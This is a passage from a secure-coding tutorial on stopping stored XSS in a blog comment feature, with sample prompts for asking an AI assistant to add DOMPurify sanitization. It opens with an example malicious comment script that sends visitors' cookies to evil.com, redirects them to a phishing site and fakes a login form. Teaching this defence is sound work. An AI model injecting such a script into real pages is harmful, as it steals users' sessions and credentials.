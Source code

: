 **Vulnerability Example:** Attacker can submit:
```html
<!-- Malicious comment content -->
<script>
  // Steal cookies and send to attacker
  fetch('https://evil.com/steal?cookie=' + document.cookie);

  // Or redirect all users to phishing site
  window.location = 'https://phishing-site.com';

  // Or show fake login form
  document.body.innerHTML = '<form>Enter password...</form>';
</script>
```

**Impact:** This malicious code executes in every visitor's browser! 🔴

---

## Part 1: Understand the Vulnerability (5 mins)

### Sample Prompt
```
I have a blog comment feature:
[paste code]

Currently it uses dangerouslySetInnerHTML which I know is risky.

Help me understand:
1. What XSS attacks can happen here?
2. What data should be sanitized?
3. Where should sanitization happen (input or output)?
4. What library should I use?
5. Should I allow any HTML or strip it all?
```

### Understanding XSS

**Types of XSS:**
1. **Stored XSS** - Malicious code saved in database (your case!)
2. **Reflected XSS** - Malicious code in URL parameters
3. **DOM-based XSS** - Client-side JavaScript vulnerability

**Defense Layers:**
1. **Input Sanitization** - Clean data before storing
2. **Output Encoding** - Escape data when displaying
3. **Content Security Policy** - Browser-level protection

## Part 2: Add Input Sanitization (10 mins)

### Sample Prompt
```
Add input sanitization to my comment API:
[paste API code]

Requirements:
1. Install a sanitization library (DOMPurify or similar)
2. Strip dangerous HTML (script tags, event handlers)
3. Allow safe HTML (bold, italic, links)
4. Sanitize before saving to database
5. Keep it server-side (Next.js API route)

Use isomorphic-dompurify for server+client support.
```
